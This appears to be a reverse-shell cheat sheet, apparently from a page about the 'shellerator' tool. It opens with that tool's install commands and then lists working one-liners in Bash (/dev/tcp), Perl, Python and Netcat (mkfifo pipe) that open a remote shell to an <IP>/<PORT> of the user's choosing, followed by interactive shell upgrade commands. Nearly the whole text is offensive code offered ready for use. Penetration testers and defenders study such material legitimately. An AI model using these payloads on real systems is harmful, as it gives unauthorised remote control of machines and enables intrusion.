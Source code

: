 ```
# Download
git clone https://github.com/ShutdownRepo/shellerator

# Install requirements
pip3 install --user -r requirements.txt

# Executable from anywhere
sudo cp shellrator.py /bin/shellrator
```

### Bash

```
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

### Perl

```
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Netcat

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

### More reverse shell

```
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```

### Interactive shell

```
# Python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Bash
echo os.system('/bin/bash')

# Sh
/bin/bash -i

# Perl
perl -e 'exec "/bin/bash"'

# Ruby
exec "/bin/bash"

# Lua
os.execute('/bin/bash')
```

